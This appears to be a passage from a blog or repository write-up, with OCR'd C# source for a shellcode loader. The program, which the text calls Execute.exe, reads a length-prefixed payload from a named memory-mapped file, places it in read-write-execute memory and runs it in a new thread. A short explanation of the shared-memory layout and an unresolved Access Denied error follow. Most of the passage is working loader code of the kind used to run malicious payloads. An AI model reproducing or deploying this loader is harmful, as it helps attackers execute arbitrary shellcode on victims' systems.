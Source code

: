 ```c#
    private static extern IntPtr CreateThread(UInt64 lpThreadAttributes, UInt64 dWsize, IntPtr lpStartAddress, IntPtr lpParameter, UInt64 dwCreationFlags, IntPtr lpThradId);

    [DllImport("kernel32")]
    private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt64 dwMilliSeconds);

    private static UInt64 MEM_COMMIT = 0x1000;
    private static UInt64 PAGE_EXECUTE_READWRITE = 0x40;

    public static void ExecuteShellcode(byte[] shellcode)
    {
        IntPtr address = VirtualAlloc(0, (UInt64)(shellcode.Length), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        Marshal.Copy(shellcode, 0, address, shellcode.Length);
        IntPtr threadHandle = CreateThread(0, 0, address, IntPtr.Zero, 0, IntPtr.Zero);
        _ = WaitForSingleObject(threadHandle, 0xFFFFFFFF);
    }
    static void Main(string[] args)
    {

        MemoryMappedFile mmf = MemoryMappedFile.OpenExisting("shellcode");
        MemoryMappedViewStream stream = mmf.CreateViewStream();

        byte[] length = new byte[4];
        stream.Read(length, 0, 4);

        int l = BitConverter.ToInt32(length, 0);
        byte[] shellcode = new byte[l];
        stream.Read(shellcode, 0, l);
        ExecuteShellcode(shellcode);
    }
}
```

## Problem?

Now the mapping memory section works but when executing WaitForSingleObject it gives Access Denied error which means there is something wrong still present which needs to be checked. But anyways, I have got the memory mapping working.

## Structure of Mapped Memory

For those wondering how exactly am I copying shellcode over mapped memory, I first get the length of shellcode and convert the int into bytes and store them into first 4 bytes of shared memory. After that reset of shellcode is stored byte by byte. The reason being when Execute.exe reads the shared memory, it can know the size of shellcode by reading first 4 bytes of shared memory which can help declare byte array for storing shellcode.
